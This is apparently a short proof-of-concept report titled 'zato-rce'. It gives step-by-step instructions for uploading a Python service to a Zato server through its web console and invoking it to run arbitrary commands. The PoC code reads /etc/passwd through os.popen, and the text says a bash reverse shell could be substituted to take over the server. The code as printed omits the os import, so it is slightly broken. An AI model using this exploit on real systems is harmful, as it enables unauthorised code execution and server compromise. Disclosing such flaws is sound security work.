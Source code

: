 # zato-rce
- Login in Zato;
- Click "Services"-"List services"-"Upload services"
- Upload PoC Python Script(in attachment)
- Click uploaded files and click "Invoker",last submit.
- Server execute code.If I change the command to "Bash Reverse Shell" ,i will gain server privileges.

PoC:
```
from zato.server.service import Service
import json

class OeNotice(Service):
    def handle(self):
        self.response.payload={'result':os.popen("cat /etc/passwd").read()}
```
